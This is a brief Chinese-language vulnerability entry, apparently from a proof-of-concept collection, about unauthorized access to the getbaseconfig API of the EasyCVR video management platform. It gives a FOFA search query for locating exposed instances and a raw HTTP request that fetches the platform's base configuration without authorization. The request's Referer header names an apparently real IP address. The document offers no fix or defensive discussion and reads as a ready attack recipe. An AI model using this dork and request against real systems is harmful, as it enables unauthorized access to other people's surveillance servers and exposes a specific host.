

# EasyCVR-视频管理平台getbaseconfig接口未授权访问

EasyCVR视频管理平台，作为TSINGSEE青犀视频旗下的一款重要产品，是一款功能强大的视频融合+AI智能分析网关平台。平台基于分布式、负载均衡等流媒体技术，提供广泛兼容、安全可靠、开放共享的视频综合服务。它支持多协议的设备视频接入、采集、AI智能检测、处理、分发、管理等服务，并具备轻量化接入、传输、处理与分发能力，可实现一站式视频融合共享管理。支持RTSP、RTMP、GB28181、GB35114、海康Ehome、大华SDK、海康SDK等多种协议的视频设备接入，兼容市面上几乎所有视频终端。

FOFA: 

```plain
title="EasyCVR"
```

```
GET /api/v1/getbaseconfig HTTP/2
Host: 
Cookie: token=-RDgCfFNR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: https://122.225.84.166:4443/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```




